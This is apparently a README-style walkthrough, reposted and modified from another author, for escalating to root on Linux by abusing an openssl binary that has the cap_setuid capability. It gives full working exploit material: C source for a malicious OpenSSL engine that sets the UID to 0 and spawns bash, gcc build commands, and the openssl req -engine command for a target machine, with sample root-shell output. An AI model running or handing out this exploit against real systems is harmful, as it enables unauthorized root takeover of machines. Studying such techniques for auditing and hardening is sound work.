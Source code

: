 # All credit goes to chaudhary1337 
**check out the original post:**
https://chaudhary1337.github.io/p/how-to-openssl-cap_setuid-ep-privesc-exploit/

**---- *Modified by LV6LV* ----**

Consider the binary /usr/bin/openssl has capabilities set as: /usr/bin/openssl = cap_setuid+ep 

Is there a way to become root from a normal user by using this? 
> yes... yes there is a way.

## Search all the binaries' capabilities using: 
```
getcap -r / 2>/dev/null.
```
> getcap is the tool we will use
-r is the recursive flag
2>/dev/null directs the standard error stream to /dev/null

## To set a capability:
```
sudo setcap 'cap_setuid=+ep' <full path of binary>
```


If you see /usr/bin/openssl = cap_setuid+ep or /usr/bin/openssl = cap_setuid=ep , we are set for success.

## 1. Requirements (On Your System)
We will use #include <openssl/engine.h> header in our exploit engine file. On debian based systems, use the following command to install requirements: 
```
sudo apt-get install libssl-dev
```

## 2. Getting The Exploit Ready
Create a file named openssl-exploit-engine.c with contents as such:
```
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```
Check reference number 2  below for more information.

## 3. Compiling
Run the following:
```
gcc -fPIC -o openssl-exploit-engine.o -c openssl-exploit-engine.c
```
It is safe to ignore warnings below:

> implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]

> implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]

Next run:
```
gcc -shared -o openssl-exploit-engine.so -lcrypto openssl-exploit-engine.o
```
Resultant is the openssl-exploit-engine.so file.

## 4. Transfer the file to target machine
Once you have the file on the target machine, run the following command below.
**\* This command will fail if you do not use the full path to openssl-exploit-engine.so file.**
```
openssl req -engine \<full path to openssl-exploit-engine.so file\>
```

Sample output if openssl-exploit-engine.so is located in the /tmp directory
```
$ openssl req -engine /tmp/openssl-exploit-engine.so
# whoami
root
```
**Enjoy!**

## Common Errors
> fatal error: openssl/engine.h: No such file or directory #include <openssl/engine.h>
  
Fix by installing libssl-dev (sudo apt-get install libssl-dev)

## 7. References

1. Read up more on capabilities. 
  https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities
2. OpenSSL building a useless engine
  https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/
3. How to use the library load feature OpenSSL
  https://gtfobins.github.io/gtfobins/openssl/#library-load
